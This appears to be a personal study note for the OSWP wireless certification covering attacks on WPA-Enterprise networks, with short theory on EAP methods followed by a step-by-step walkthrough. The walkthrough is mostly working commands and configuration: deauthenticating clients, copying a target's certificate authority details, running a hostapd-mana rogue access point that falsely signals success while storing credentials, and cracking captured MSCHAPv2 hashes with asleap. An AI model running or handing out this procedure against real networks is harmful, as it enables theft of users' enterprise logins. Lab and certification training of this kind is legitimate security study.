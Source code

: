 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/7-enterprise-cracking/","updated":"2024-01-05T11:37:22.106+01:00"}
---
```


-------------
### Theory
- Authentication is done using a RADIUS server
- EAP frames are relayed from AP to RADIUS, if successful a PMK is used in a 4-way handshake
- Authentication methods:
	- EAP-TLS
		- One of the most secure
		- Certificates on both server and client side
	- EAP-TTLS
		- Does not necessarily need client certificates
		- Creates a tunnel to exchange credentials using different inner/phase2 methods
			- Challenge-Handshake Authentication Protocol (CHAP)
			- Authentication Protocol (PAP)
			- Microsoft CHAP (MS-CHAP)
			- MS-CHAPv2
	- PEAP
		- TLS tunnel with most commonly MS-CHAPv2
- AUTH: MGT means WPA Enterprise

### Walkthrough:
1. Generate/validate certificate:
```
openssl x509 -in <name.crt/pem> -noout -enddate
```
2. Sniff nearby APs:
```
sudo airodump-ng wlan0mon
```
3. Tune dump with channel and SSIDs:
```
sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
```
4. Start deauth:
```
sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon
```
5. Open capture in Wireshark and filter for:
```
tls.handshake.certificate
```
6. _Extensible Authentication Protocol_ > _Transport Layer Security_
7. Find the certificates and right-click for "Export Packet Bytes"
8. Convert the .der into a .crt:
```
openssl x509 -inform der -in <file.der> -outform pem -out <file.crt>
```
9. Edit [certificate_authority] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/ca.cnf
```
Example:
```
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```
10. Edit [server] in freeradius to match target CA:
```
sudo nano /etc/freeradius/3.0/certs/server.cnf
```
Example:
```
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```
11. Delete the diffie-hellman file and any previous certs and make the cert:
```
make destroycerts
sudo rm /etc/freeradius/3.0/certs/dh
make
```
12. Generate the mana.conf file and set SSID:
```
# SSID of the AP
ssid=<ssid-name>

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```
13. Create the EAP user file referenced in the conf-file:
```
sudo nano /etc/hostapd-mana/mana.eap_user
```
Paste:
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
14. Start hostapd-mana with the conf-file:
```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```
15. Catch credentials in: /tmp/hostapd.credout
16. Crack with asleap:
```
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
```